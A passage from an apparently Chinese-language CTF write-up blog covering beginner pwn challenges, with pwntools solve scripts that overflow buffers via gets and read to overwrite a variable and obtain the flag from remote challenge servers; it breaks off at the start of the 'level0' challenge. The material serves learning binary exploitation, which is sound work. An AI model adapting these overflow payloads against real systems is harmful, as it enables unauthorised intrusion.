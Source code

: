 发现危险函数`gets`,存在溢出漏洞，通过v4溢出修改v5的值  
**解题脚本:**
```python
#!/usr/bin/python
#coding=utf-8

from pwn import *
io = remote('220.249.52.133','34377')
io.recvuntil('Birth?\n')
io.sendline('33')
io.recvuntil('Name?\n')
payload = 'A'*8+p64(1926)
io.sendline(payload)
print io.recvall()
```

## 0x04 hello_pwn
> 题目描述: pwn！，segment fault！菜鸡陷入了深思

查看安全机制  
![2020-06-05-21-33-58](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-21-33-58.png)  

拖入IDA查看反汇编代码  
![2020-06-05-21-37-38](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-21-37-38.png)  
read函数处可能造成溢出

由源代码可知只需使`if`中等式成立便可以得到flag  
跟进变量`unk_601068`,发现`dword_60106C`就在下面将，则可以通过read修改其值  
![2020-06-05-21-40-22](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-21-40-22.png)  

**解题脚本:**
```python
#!/usr/bin/python
#coding=utf-8

from pwn import *
io = remote('220.249.52.133','30839')
io.recvuntil('for bof\n')
payload = 'A'*4+p64(1853186401)
io.sendline(payload)
print io.recvall()
```

## 0x05 level0
> 题目描述: 菜鸡了解了什么是溢出，他相信自己能得到shell

查看安全机制  
![2020-06-05-21-46-06](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-21-46-06.png)  

拖入IDA查看反汇编代码  
![2020-06-05-21-48-39](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-21-48-39.png) 
